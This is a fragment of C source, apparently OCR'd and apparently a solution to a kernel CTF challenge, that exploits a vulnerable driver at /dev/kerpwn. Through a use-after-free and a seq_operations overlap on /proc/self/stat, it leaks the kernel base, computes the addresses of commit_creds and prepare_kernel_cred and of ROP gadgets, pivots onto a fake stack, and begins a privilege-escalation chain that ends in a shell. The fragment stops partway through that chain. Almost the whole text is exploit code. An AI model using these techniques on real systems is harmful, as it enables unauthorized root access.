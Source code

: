 ```c

int edit(struct node *nodep)
{
	return ioctl(fd,0x50,nodep);
}


char data[0x300];
int main()
{
	signal(SIGSEGV, shell);
	save_stat();
	
	printf("[+]open drive\n");
	fd = open("/dev/kerpwn",2);
	if (fd < 0) {
		printf("[-] bad open device\n");
		exit(-1);
	}
	
	struct node node1;
	node1.buf = malloc(0x100);
	node1.len = 0x100;
	node1.idx = 0;

	add(0x20);
	delete(0);

	int seq_fd = open("/proc/self/stat", O_RDONLY);
    if(seq_fd < 0)
    {
        puts("[!] open failed");
        exit(-1);
    }
	
	show(&node1);
	printf("[+] Leak address: \n");
	for(int i=0;i<0x20/8;i++){
		printf("0x%lx\n",*((size_t *)node1.buf+i));
	}
	size_t base=*((size_t *)node1.buf)-0x319d30;
	prepare_kernel_cred=base+prepare_kernel_cred;
	commit_creds=base+commit_creds;
	size_t xchg_eax_esp=base+0x1c4878;
	size_t pop_rdi=base+0x5aa90c;
	size_t pop_rdx=base+0x9131ba;
	size_t mov_rdi_rax=base+0x5b27ca;
	size_t swapgs=base+0xc010bc;
	size_t iretq=base+0x3a2ab;
	
	
	
	size_t start = (xchg_eax_esp & 0xfff) / 8;
	size_t *fake_stack = mmap(xchg_eax_esp & 0xfffff000, 0x2000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
	if(fake_stack != (xchg_eax_esp & 0xfffff000))
	{
		puts("[!] mmap failed");
		exit(-1);
	}
	size_t index = 0;
	fake_stack[start + index++] = pop_rdi;
	fake_stack[start + index++] = 0;
```